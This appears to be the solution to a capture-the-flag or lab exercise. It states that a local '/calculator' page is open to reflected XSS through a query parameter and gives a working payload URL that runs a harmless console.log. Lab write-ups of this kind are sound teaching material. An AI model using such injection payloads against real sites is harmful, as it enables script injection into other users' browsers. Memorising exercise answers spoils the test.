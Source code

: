 # Solution

## Injection

The `/calculator` page is vulnerable to a reflected client-side xss injection via the `dispaly` query parameter.

## Working Payload

```
http://localhost:52053/calculator?display=console.log(%22I_FOUND_AN_XSS!!!%22)*1
```
